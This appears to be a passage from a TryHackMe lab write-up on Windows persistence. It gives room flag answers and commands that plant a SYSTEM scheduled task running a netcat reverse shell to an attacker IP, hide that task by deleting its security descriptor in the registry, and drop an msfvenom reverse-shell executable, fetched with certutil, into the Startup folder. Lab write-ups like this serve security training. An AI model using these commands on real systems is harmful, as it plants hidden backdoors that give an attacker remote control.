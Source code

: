 ```markdown
1. flag7? - THM{SUSPICIOUS_SERVICES}

2. flag8? - THM{IN_PLAIN_SIGHT}
```

## Abusing Scheduled Tasks

* Task Scheduler:

```cmd
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.10.53.136 4449" /ru SYSTEM
#creates a scheduled task that runs every 1 minute
#executes a nc64 reverse shell
#run as SYSTEM

schtasks /query /tn thm-taskbackdoor
#check task

#we can delete the task's security descriptor(SD)
#to make our task invisible
C:\tools\pstools\PsExec64.exe -s -i regedit
#regedit as SYSTEM to delete SD
#HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\

schtasks /query /tn thm-taskbackdoor
#this won't show a task now

#start listener on port 4449 in attacker machine
```

```markdown
1. flag9? - THM{JUST_A_MATTER_OF_TIME}
```

## Logon Triggered Persistence

* This refers to payloads that get executed whenever a user logs into the system.

* Startup Folder:

```cmd
#executable can run when an user logs in if it is in the path
#C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

#for all users, the path is
#C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

#in attacker machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.53.136 LPORT=4450 -f exe -o revshell.exe

python3 -m http.server

#in victim machine
certutil.exe -urlcache -f http://10.10.53.136:8000/revshell.exe revshell.exe

copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"

#start listener in attacker machine
#and log out and log in the victim machine
```
